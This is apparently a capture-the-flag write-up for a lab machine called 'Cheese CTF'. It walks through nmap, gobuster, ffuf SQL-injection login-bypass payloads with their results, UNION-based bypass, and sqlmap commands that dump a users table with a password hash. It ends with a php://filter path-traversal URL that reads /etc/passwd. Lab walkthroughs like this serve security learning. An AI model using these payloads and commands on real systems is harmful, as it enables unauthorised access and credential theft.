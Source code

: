 # Cheese CTF   


## ``nmap scan``

```
nmap -sCV 10.10.0.223
```

![image](https://github.com/user-attachments/assets/c6f79a9d-c448-47f2-9fd6-1ba6289318e0)



## ``gobuster``

```
gobuster dir -u http://10.10.0.223/ -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt
```

![image](https://github.com/user-attachments/assets/6ad6f0aa-b52b-42d5-bc70-7a7b89d02d90)





## ``ffuf``
> you can sue ``ffuf`` to fuzz and bypass login page :

```
ffuf -w SQL_login_bypass.txt -X POST -u http://10.10.0.223/login.php -d 'username=FUZZ&password=asdf' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 227
```

``found``

![image](https://github.com/user-attachments/assets/24c827a5-71b9-4e89-a18a-ebebe14f79fb)


```
' OR 'x'='x'#;          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 166ms]
'-''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'-''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 98ms]
'^''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 96ms]
'^''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 96ms]
'*''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
'*''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
'=''-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
'=''#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 108ms]
'oR'2'LiKE'2'-- 2       [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 105ms]
'oR'2'LiKE'2'#          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 117ms]
' UniON SElecT 1,2,3-- 2 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 97ms]
' UniON SElecT 1,2,3#   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 97ms]
'UniON(SElecT(1),2,3)-- 2 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 93ms]
'UniON(SElecT(1),2,3)#  [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 106ms]
'||2-- 2                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 94ms]
'||'2'||'               [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 93ms]
'||2#                   [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 94ms]
'||2||'                 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 99ms]
'||'2'='2'||'           [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||2=2-- 2              [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 93ms]
'||2=2#                 [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||2=2||'               [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||true||'              [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 114ms]
'||true-- 2             [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 114ms]
'||'2'LiKE'2'-- 2       [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 98ms]
'||'2'LiKE'2'#          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 98ms]
'||true#                [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 114ms]
'||'2'LiKE'2'||'        [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 96ms]
'||(2)LiKE(2)-- 2       [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 97ms]
'||(2)LiKE(2)#          [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 92ms]
'||(2)LiKE(2)||'        [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 95ms]
%A8%27||1-- 2           [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 136ms]
%bf'||1-- 2             [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 133ms]
%8C%A8%27||1-- 2        [Status: 302, Size: 792, Words: 217, Lines: 26, Duration: 133ms]
:: Progress: [804/804] :: Job [1/1] :: 334 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```





----
----

<details>
   <summary>inject manual</summary>

> first try ``' or 1=1; -- -`` but not work

``try union``

```
' union select 1 -- -
' union select 1,2 -- -
' union select 1,2,3 -- -
```
and Boom!!! 

it work on 3 columns and bypassed login 

> if you try to extract data from this and appear database content it will not apper ✅ SQLi exists, ❌ but data can’t be extracted via this page.

</details>

----
----


## ``SQLmap``

```
sqlmap -u "http://10.10.0.223/login.php" --data="username=admin&password=pass" --level=5 --risk=3 --threads=5 --dbs
```

``found databases``

```
available databases [2]:
[*] information_schema
[*] users
```

![image](https://github.com/user-attachments/assets/826eb9e0-20b7-4a08-a192-213def942148)


``find tables in users database``

```
sqlmap -u "http://10.10.0.223/login.php" --data="username=admin&password=pass" -D users --tables
```

``found users table``

![image](https://github.com/user-attachments/assets/36fa6cb3-89fb-493b-8c00-afb08453340c)


``get content of users``

```
sqlmap -u "http://10.10.0.223/login.php" --data="username=admin&password=pass" -D users -T users --dump
```

![image](https://github.com/user-attachments/assets/dddc5c59-a882-4c82-b594-6f474d955d26)

```
retrieved: 5b0c2e1b4fe1410e47f26feff7f4fc4c
retrieved: comte
```
```
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | 5b0c2e1b4fe1410e47f26feff7f4fc4c | comte    |
+----+----------------------------------+----------+
```


> ### tryed to hash password but not found crack to it so try to found another way to get in system


## ``path traversal``

after bypass login page found :


![image](https://github.com/user-attachments/assets/51963ef7-59a5-4c25-8bfa-81317651aa83)

try to make url like ``http://10.10.0.223/secret-script.php?file=php://filter/resource=../../../../etc/passwd`` found

![image](https://github.com/user-attachments/assets/9231f3b9-6553-4b70-b9db-40bb92ee361a)

Boom !!!

> notice we found in /etc/passwd our user we found ``comte``





